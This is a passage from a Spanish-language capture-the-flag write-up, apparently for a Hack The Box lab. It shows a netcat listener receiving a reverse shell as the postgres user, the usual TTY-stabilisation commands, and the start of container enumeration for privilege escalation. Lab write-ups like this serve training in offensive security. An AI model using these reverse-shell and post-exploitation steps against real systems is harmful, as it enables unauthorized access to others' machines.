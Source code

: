 Recibimos la `shell`

```
# nc -nlvp 9993 
listening on [any] 9993 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.189.200] 62842
bash: cannot set terminal process group (11767): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation

Nos encontramos en el `contenedor`

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ hostname -I
hostname -I
172.17.0.2 
```

`Enumeramos` el `contenedor` y vemos que el sistema es `boot2docker`

```
postgres@bc56e3cc55e9:/boot$ uname -a
uname -a
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
postgres@bc56e3cc55e9:/boot$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 10 (buster)
Release:	10
Codename:	buster
```
